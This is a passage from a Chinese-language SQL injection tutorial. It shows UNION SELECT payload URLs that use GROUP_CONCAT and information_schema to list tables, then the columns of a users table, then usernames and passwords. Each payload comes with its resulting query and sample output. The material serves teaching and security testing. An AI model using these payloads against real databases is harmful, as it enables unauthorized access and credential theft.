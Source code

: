 ```
http://example.com/products?id=-1' UNION SELECT 1, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='security' --+
```

**SQL查询变为：**

```
SELECT id, name FROM products WHERE id = -1 UNION SELECT 1, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='security';
```

**结果：**

```
users,orders,products,logins
```

- `information_schema.tables` 是一个系统表，包含了当前数据库中的所有表信息。
- `GROUP_CONCAT(table_name)` 将所有的表名连接成一个以逗号分隔的字符串。

通过这种方式，攻击者可以一次性列出数据库 `security` 中的所有表名。

#### 示例：列出特定表的列名

攻击者还可以使用 `GROUP_CONCAT` 获取某个表（如 `users` 表）中的所有列名：

```
http://example.com/products?id=-1' UNION SELECT 1, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users' --+
```

**SQL查询变为：**

```
SELECT id, name FROM products WHERE id = -1 UNION SELECT 1, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users';
```

**结果：**

```
id,username,password,email
```

- `information_schema.columns` 表包含了数据库中所有表的列信息。
- `GROUP_CONCAT(column_name)` 将 `users` 表中的所有列名连接成一个字符串。

这样，攻击者就可以获取 `users` 表的结构。

#### 示例：列出敏感数据（如用户名和密码）

进一步地，攻击者可以使用 `GROUP_CONCAT` 来提取表中的敏感数据，例如 `users` 表中的用户名和密码。

```
http://example.com/products?id=-1' UNION SELECT 1, GROUP_CONCAT(username, '-', password) FROM users --+
```

**SQL查询变为：**

```
SELECT id, name FROM products WHERE id = -1 UNION SELECT 1, GROUP_CONCAT(username, '-', password) FROM users;
```
